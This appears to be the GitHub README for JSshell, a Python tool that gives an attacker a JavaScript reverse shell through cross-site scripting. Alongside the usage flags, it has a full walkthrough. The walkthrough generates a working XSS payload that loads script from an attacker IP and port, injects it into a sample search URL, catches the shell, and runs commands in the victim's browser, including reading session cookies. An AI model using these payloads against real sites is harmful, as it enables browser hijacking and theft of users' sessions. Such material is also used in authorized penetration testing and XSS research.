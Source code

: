 # JSshell

![JSshell](https://user-images.githubusercontent.com/43073671/101387832-ec9f5380-38b6-11eb-9933-db5399cf0319.png)

JSshell - a JavaScript reverse shell. This is used to execute JS code remotely, exploit blind XSS, ...

This tool works for both Unix and Windows operating systems, and it can run on both Python 2 + Python 3. This is 
a big update of JShell - a tool to get a JavaScript shell with XSS by s0med3v. JSshell also doesn't require Netcat (different from JShell).

### New in JSshell version 3.1
Updated in the new version of JShell 3.1:

- New JSshell command: `snippet` -> allows to write a snippet of javascript code

```sh
>>> snippet
Use CTRL+C to finish the snippet

function new() {
    new = 'New update: Support javascript snippet =)';
    confirm(new)
}

new()
>>> 
```
- Quiet mode (for professionals)
- Added `<body>` reverse shell payload
- Fixed some bugs

# Usage
#### Generate JS reverse shell payload:  `-g`
#### Set the local port number for listening and generating payload (By default, it will be set to 4848):  `-p`
#### Set the local source address for generating payload (JSshell will detect your IP address by deault):  `-s`
#### Set timeout for shell connection (if the user exit page, the shell will be pause, and if your set the timeout, after a while without response, the shell will automatically be closed):  `-w`
#### Execute a command after get the shell:  `-c`

#### Example usages:
- `jsh.py`
- `jsh.py -g`
- `jsh.py -p 1234`
- `jsh.py -s 48.586.1.23 -g`
- `jsh.py -c "alert(document.cookie)" -w 10`

#### An example for running JSshell:
This is a step-by-step example for how to use JSshell.

First we will generate a reverse JS shell payload and set the shell timeout is 20 seconds:

```
~# whoami
root
~# ls
README.md   jsh.py
~# python3 jsh.py -g -w 20
    __
  |(_  _ |_  _  |  |
\_|__)_> | |(/_ |  |
                      v1.0

Payload:
<svg/onload=setInterval(function(){with(document)body.appendChild(createElement("script")).src="//171.224.181.106:4848"},999)>

Listening on [any] 4848 for incoming JS shell ...
```

Now paste this payload to the website (or URL):

`https://vulnwebs1te.com/b/search?q=<svg/onload=setInterval(function(){with(document)body.appendChild(createElement("script")).src="//171.224.181.106:4848"},1248)>`

Access the page and now we will see that we have got the reverse JS shell:

```
    __
  |(_  _ |_  _  |  |
\_|__)_> | |(/_ |  |
                      v1.0

Payload:
<svg/onload=setInterval(function(){with(document)body.appendChild(createElement("script")).src="//171.224.181.106:4848"},999)>

Listening on [any] 4848 for incoming JS shell ...
Got JS shell from [75.433.24.128] port 39154 to DESKTOP-1GSL2O2 4848
$ established
$ the
$ shell
$
$
$ help
JSshell using javascript code as shell commands. Also supports some commands:
help                  This help
exit, quit            Exit the JS shell
$
```
Now let's execute some commands:

```
$ var test = 'controlled'
$ alert(test)
$
```
And the browser got an alert:  `controlled`

```
$ prompt(document.cookie)
$
```
And the browser print the user cookies:  `JSESSION=3bda8...`

```
$ exit
~# whoami
root
~# pwd
/home/shelld3v
~#
```

And we quited!


# Author
This is created by [shelld3v](https://github.com/shelld3v)!

